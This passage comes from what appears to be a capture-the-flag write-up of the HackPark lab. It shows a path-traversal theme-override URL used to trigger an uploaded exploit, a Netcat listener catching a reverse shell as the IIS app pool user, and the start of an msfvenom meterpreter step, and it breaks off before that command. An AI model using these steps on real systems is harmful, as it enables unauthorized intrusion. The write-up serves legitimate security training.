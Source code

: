 ![screenshot11](../assets/images/hackpark/screenshot11.png)

We then set up a Netcat listener listening on the port that we indicated in our exploit script.

Finally, we trigger the vulnerability by accessing the base URL for the blog with the theme override specified like so:

http://10.10.192.114/?theme=../../App_Data/files

![screenshot12](../assets/images/hackpark/screenshot12.png)

And we're in! :smile:

The webserver is running as **iis apppool\blog**.

---

### [ Our netcat session is a little unstable, so lets generate another reverse shell using msfvenom. ]

To generate the reverse shell for a **meterpreter** session, we can use `msfvenom` with the following command:
